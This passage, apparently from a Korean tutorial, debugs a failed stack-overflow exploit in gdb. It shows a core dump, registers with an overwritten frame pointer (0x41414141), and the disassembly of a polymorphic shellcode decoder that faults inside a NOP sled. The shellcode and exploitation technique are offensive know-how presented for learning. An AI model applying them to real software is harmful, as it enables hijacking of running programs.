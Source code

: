 ```bash
```

### 3.2 core dump 파일 디버깅

저장된 core dump 를 이용하여 디버깅을 해보자.

```bash
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...

warning: core file may not match specified executable file.
Core was generated by `                                                                              '.
Program terminated with signal 11, Segmentation fault.
Reading symbols from /lib/libc.so.6...done.
Reading symbols from /lib/ld-linux.so.2...done.
#0  0xbfffffd2 in ?? ()
(gdb)
```

shellcode 까지는 jump 를 잘 했는데, Polymorphic Shellcode 를 푸는 과정에서 fault 가 난 것 같다. shellcode 를 바꿔야 할까 ?

```bash
(gdb) info reg
eax            0x2      2
ecx            0x32     50
edx            0x0      0
ebx            0x401081ec       1074823660
esp            0xbffffb90       -1073742960
ebp            0x41414141       1094795585
esi            0xbfffffe3       -1073741853
edi            0xbffffbd4       -1073742892
eip            0xbfffffd2       -1073741870
eflags         0x10246  66118  

0xbfffffc8:     nop
0xbfffffc9:     nop
0xbfffffca:     nop
0xbfffffcb:     jmp    0xbfffffde
0xbfffffcd:     pop    %esi
0xbfffffce:     xor    %ecx,%ecx
0xbfffffd0:     mov    $0x32,%cl
0xbfffffd2:     subb   $0x1,0xffffffff(%esi,%ecx,1)    // Fault !!!
0xbfffffd7:     sub    $0x1,%cl
0xbfffffda:     jne    0xbfffffd2
0xbfffffdc:     jmp    0xbfffffe3
0xbfffffde:     call   0xbfffffcd
0xbfffffe3:     xor    %cl,%al
0xbfffffe5:     push   %ecx
0xbfffffe6:     imul   $0x69697430,(%eax),%esi
0xbfffffec:     xor    %ah,0x6a(%ebx)
0xbfffffef:     outsl  %ds:(%esi),(%dx)
0xbffffff0:     mov    %ah,%ah
0xbffffff2:     push   %ecx
0xbffffff3:     push   %esp
0xbffffff4:     mov    %dl,%ah
0xbffffff6:     lcall  $0x0,$0x81ce0cb1
0xbffffffd:     add    %al,(%eax)
0xbfffffff:     .byte 0x0
0xc0000000:     Cannot access memory at address 0xc0000000
```